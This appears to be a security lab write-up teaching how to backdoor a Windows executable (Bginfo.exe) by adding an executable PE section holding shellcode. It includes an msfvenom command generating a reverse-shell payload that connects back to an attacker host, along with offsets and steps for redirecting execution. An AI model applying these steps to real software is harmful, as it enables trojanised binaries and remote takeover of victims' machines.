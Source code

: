 # Backdooring PE Files with Shellcode
*The purpose of this lab is to learn the Portable Executable (PE) backdooring technique by adding a new readable/writable/executable code section with our malicious shellcode to any portable executable file.*

*High level process of this technique:*

*-Add a new RWX PE section, big enough to hold our shellcode, to any .exe file*  
*-Generate shellcode*  
*-Add shellcode to the newly created PE section*  
*-Redirect execution flow of the .exe file being backdoored to the shellcode*  
*-Redirect execution flow back to the legitimate .exe instructions*  

# Generate Shellcode
*First of, let's generate the shellcode so we know how many bytes of space we will need in the new PE section:*

```msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 | hexdump -C```  
![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/fb73271e-7bcc-4e0f-bf7b-a0dab96a4d04)  
*Note that the shellcode size is 324 bytes - the new PE section will have to be at least that big.*

# New PE Code Section
*I randomly chose Bginfo.exe from sysinternals as a binary to be backdoored. Let's add a new PE section called  that will contain our shellcode - note the size is 200h bytes, so plenty for our shellcode which was only 324 bytes:*```.code1```

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/cbd3afd7-743d-4fb5-8229-f9e1e603967a)

*Note the Raw Address of the new section which is CD200 - this is where we will place the shellcode inside the file in later steps.*

*Let's make the new PE section writable/executable and mark it as  using CFF Explorer:*```contains code```

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/716391fe-41a2-4726-8d45-cda36285d1f8)

# Inserting Shellcode
*Let's copy the shellcode over to the new code section, starting at 0xCD200 into the file:*

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/a758cb03-9b26-49d3-8ec2-d90381932539)

# Testing the Shellcode
*Let's see if we can force the Bginfo.exe binary to execute our shellcode using debugger first. We need to find the base address of Bginfo.exe, which we see is 0x00400000:*

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/507dae91-e32c-4b2e-a1af-40da1979b3d4)

*Since the new section .code1 that holds our shellcode has an RVA 000D8000, we can find the shellcode in a running process at 00400000+00d8000 = ‭4D8000‬. Below shows that the bytes at cd200 (file offset) match those at 4d8000 while the bginfo.exe is running:*

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/d2a3b0a1-3a05-46dc-bddd-27901d1f548b)

*When debugging the binary, if we set the EIP to point to 4D8000‬ and let the debugger run, if we have a listener on the attacking system, we get the reverse shell which confirms that we can successfully execute the shellcode if we manage to redirect the code execution flow of bginfo.exe:*

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/d44f53e6-c25d-4a24-a435-a995e5b17d8d)

#### i
*In the above screenshot,  and  are the first instructions at 4d8000 - it's not shown in this lab how those two instructions were inserted there, but there is no magic  - just add   bytes  before the shellcode at 0xCD200 in the bginfo and you're set.* ```pushad pushdf 60 9c```









